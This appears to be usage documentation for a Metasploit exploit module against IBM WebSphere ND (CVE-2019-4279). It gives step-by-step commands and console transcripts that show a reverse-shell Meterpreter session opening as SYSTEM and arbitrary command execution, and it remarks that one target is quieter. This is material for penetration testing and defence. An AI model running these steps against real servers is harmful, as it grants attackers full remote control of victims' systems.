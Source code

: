 ## Description
This module exploits the lack of proper authentication checks in IBM Websphere Application Server ND that allows for the execution of an arbitrary command and upload of an arbitrary file as SYSTEM. The module serializes the required Java objects expected by the IBM Websphere server.

The vulnerability was identified by @rwincey (b0yd) of [Securifera](https://www.securifera.com/) and was assigned [CVE-2019-4279](https://www-01.ibm.com/support/docview.wss?uid=ibm10883628).


## Vulnerable Application
The module affects [IBM Websphere Application Server Network Deployment](https://www.ibm.com/support/knowledgecenter/en/SSAW57/mapfiles/product_welcome_wasnd.html). The agent is installed on servers with the network deployment feature and listens on TCP port 11002,11004, or 11006. The vulnerability affects versions up to 9.0.0.11.

## Verification Steps
To use this exploit you will need access to IBM Websphere Application Server Network Deployment.

1. Install the IBM Websphere Application Server Network Deployment on a host.
2. Ensure that the service is running and listening on TCP port 11002, 11004, or 11006.
3. Launch `msfconsole`.
4. Load the module `use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce`.
5. Set the remote host ip to execute `set RHOSTS 192.168.162.133`.
6. Set the command to execute `set CMD "calc.exe"`.
7. Run the exploit `exploit`.

The result should be that calc.exe is executed on the target machine.

## Usage Scenarios
The exploit module contains several targets as detailed below.

### Target 0: Windows Powershell Injected Shellcode
This module target provides support for command staging to enable arbitrary Metasploit payloads to be used against Windows targets (for example, a Meterpreter shell). 

```
msf5 > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] 172.22.222.200:11006 - Connected to IBM WAS DMGR.
[*] 172.22.222.200:11006 - Server responded
[*] 172.22.222.200:11006 - Sending payload: FOAFKqEH.exe
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.136:4444 -> 172.22.222.200:50575) at 2019-05-30 06:10:39 -0500
[*] 172.22.222.200:11006 - Disconnected from IBM Websphere DMGR.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > exit
```

### Target 1: CMD
This target isn't a formal target. It was added to allow a user to execute commands entirely through the IBM Websphere Application Network Deployment Server remote administration feature. It would be the most quiet of the targets as it does not create any additional connections or use powershell by default like Target 0.

```
msf5 > use exploit/windows/ibm/ibm_was_dmgr_java_deserialization_rce
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set target 1
target => 1
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set payload cmd/windows/generic 
payload => cmd/windows/generic
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > set cmd "ping -n 10 172.22.222.200"
cmd => ping -n 10 172.22.222.200
msf5 exploit(windows/ibm/ibm_was_dmgr_java_deserialization_rce) > run

[*] 172.22.222.200:11006 - Connected to IBM WAS DMGR.
[*] 172.22.222.200:11006 - Server responded
[*] 172.22.222.200:11006 - Executing command: ping -n 10 172.22.222.200
[*] 172.22.222.200:11006 - Sending payload: uMuOTPtG.bat
[*] 172.22.222.200:11006 - Disconnected from IBM Websphere DMGR.
[*] Exploit completed, but no session was created.
```
